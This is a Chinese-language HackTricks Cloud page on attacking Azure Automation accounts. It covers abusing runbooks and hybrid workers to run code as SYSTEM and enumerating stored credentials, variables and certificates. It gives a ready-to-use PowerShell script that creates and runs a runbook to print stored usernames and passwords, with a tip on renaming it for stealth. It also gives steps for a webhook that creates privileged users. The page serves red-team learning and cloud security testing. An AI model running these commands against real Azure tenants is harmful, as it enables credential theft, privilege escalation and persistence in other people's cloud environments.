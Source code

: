 # Az - 自动化帐户

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation提供了一个基于云的自动化、操作系统更新和配置服务，支持在Azure和非Azure环境中实现一致的管理。它包括流程自动化、配置管理、更新管理、共享功能和异构特性。

这些类似于Azure中的“**定时任务**”，可以让您执行操作（动作或甚至脚本）来**管理**、检查和配置**Azure环境**。

### 运行账户

当使用**运行账户**时，它会创建一个带有自签名证书的Azure AD **应用程序**，创建一个**服务主体**并为**当前订阅**中的账户分配**Contributor**角色（很多权限）。\
Microsoft建议为自动化帐户使用**托管标识**。

{% hint style="warning" %}
这将于2023年9月30日**移除并更改为托管标识**。
{% endhint %}

## Runbooks & 作业

**Runbooks**允许您**执行任意的PowerShell**代码。这可能会被攻击者滥用，以窃取**附加主体**的权限（如果有的话）。\
在**Runbooks**的**代码**中，您也可能会发现**敏感信息**（如凭据）。

如果您可以**读取****作业**，请这样做，因为它们包含运行的输出（可能包含**敏感信息**）。

转到`自动化帐户` --> `<选择自动化帐户>` --> `Runbooks/作业/混合工作组/监视器任务/凭据/变量/证书/连接`

### 混合工作者

Runbook可以在Azure内的**容器**中运行，也可以在**混合工作者**（非Azure机器）中运行。\
在VM上部署**Log Analytics代理**以将其注册为混合工作者。\
混合工作者作业在Windows上以**SYSTEM**身份运行，在Linux上以**nxautomation**账户运行。\
每个混合工作者都注册在一个**混合工作者组**中。

因此，如果您可以选择在**Windows混合工作者**中运行**Runbook**，您将以**System**身份在外部机器上执行**任意命令**（很好的枢纽技术）。

## 损害状态配置（SC）

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **状态配置**是一项Azure配置管理服务，允许您编写、管理和编译PowerShell Desired State Configuration（DSC）[配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)，用于任何云中的节点或本地数据中心。该服务还导入[DSC资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中完成。您可以通过在Azure门户中选择**配置管理**下的**状态配置（DSC）**来访问Azure Automation状态配置。

在这些配置中可能会发现**敏感信息**。

### RCE

可以滥用SC来在托管机器中运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个运行簿

{% endcode %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### 利用运行簿从自动化帐户中窃取凭据和变量

{% endcode %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行簿或从 Web 控制台执行相同操作。
{% endhint %}

### 设置自动化高特权用户创建的步骤

#### 1. 初始化自动化帐户
- **需要的操作：** 创建一个新的自动化帐户。
- **特定设置：** 确保启用了"创建 Azure Run As 帐户"。

#### 2. 导入和设置运行簿
- **来源：** 从 [MicroBurst GitHub 仓库](https://github.com/NetSPI/MicroBurst) 下载示例运行簿。
- **需要的操作：**
- 将运行簿导入自动化帐户。
- 发布运行簿以使其可执行。
- 附加一个 Webhook 到运行簿，启用外部触发器。

#### 3. 配置 AzureAD 模块
- **需要的操作：** 将 AzureAD 模块添加到自动化帐户。
- **附加步骤：** 确保所有 Azure 自动化模块都已更新到最新版本。

#### 4. 权限分配
- **要分配的角色：**
- 用户管理员
- 订阅所有者
- **目标：** 将这些角色分配给自动化帐户以获取必要的特权。

#### 5. 潜在访问丢失的注意事项
- **注意：** 请注意配置此类自动化可能导致失去对订阅的控制。

#### 6. 触发用户创建
- 通过发送 POST 请求触发 Webhook 来创建新用户。
- 使用提供的 PowerShell 脚本，确保将`$uri`替换为实际的 Webhook URL，并更新`$AccountInfo`为所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。 

</details>
